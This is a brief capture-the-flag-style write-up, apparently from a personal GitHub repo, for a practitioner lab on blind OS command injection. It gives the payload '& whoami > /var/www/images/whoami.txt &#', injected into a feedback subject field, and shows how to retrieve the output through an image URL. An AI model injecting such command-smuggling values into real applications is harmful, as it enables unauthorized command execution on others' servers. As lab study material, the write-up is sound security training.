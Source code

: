 Title: Blind OS command injection with output redirection
Level: Practitioner
Desc:  This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
/var/www/images/
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.
To solve the lab, execute the whoami command and retrieve the output. 

# Walkthrough: 

My payload: `& whoami > /var/www/images/whoami.txt &#`
Inject in subject, url encode.

Look for in this request: `https://0aa100b10401077080162b1b00830092.web-security-academy.net/image?filename=whoami.txt`

<img width="934" height="131" alt="image" src="https://github.com/user-attachments/assets/7044c85f-effe-40f4-86a0-7561bd7027c6" />

